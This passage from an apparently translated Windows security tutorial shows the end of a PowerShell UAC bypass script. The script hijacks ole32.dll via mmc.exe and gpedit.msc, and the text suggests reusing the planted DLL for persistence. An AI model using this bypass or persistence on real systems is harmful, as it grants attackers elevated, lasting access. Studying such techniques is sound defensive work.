     echo "`n[?] Executing mmc.."
    IEX $($env:SystemRoot + '\System32\mmc.exe gpedit.msc')
     
    # Move Yamabiko back to %tmp% after it loads to avoid infinite shells!
    while ($true) {
    $PS_Count = @(Get-Process -Name powershell).Count
    if ($PS_Count -gt $PS_InitCount) {
    try {
    # x32/x64 .NET foler
    if ($x64) {
    $IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework64\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
    } else {
    $IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
    }
    $IFileOperation.PerformOperations()
    break
    } catch {
    # Sometimes IFileOperation throws an exception
    # when executed twice in a row, just rerun..
    }
    }
    }
     
    # Clean-up
    echo "[!] UAC artifact: $($env:Temp + '\ole32.dll')`n"
    }

案例结束，下面的屏幕截图演示了在Windows 8（x64）和Windows 10（x32）上的绕过。

### Win8 x64 ###

![](http://www.fuzzysecurity.com/tutorials/images/UAC_10.png)

### Win10 x32 ###

![](http://www.fuzzysecurity.com/tutorials/images/UAC_11.png)

从另一方面来说，这是一个相当不错的持久化机制。删除ole32在.NET框架文件夹中封装的DLL，计划使用.NET在启动/空闲时运行任何事情。

## 0x06 总结 ##

如果你做到这一步，我想你就能明白为什么微软不承认UAC绕过。老实说我认为，让UAC步入正轨的最好的方法是积极的补丁机制。
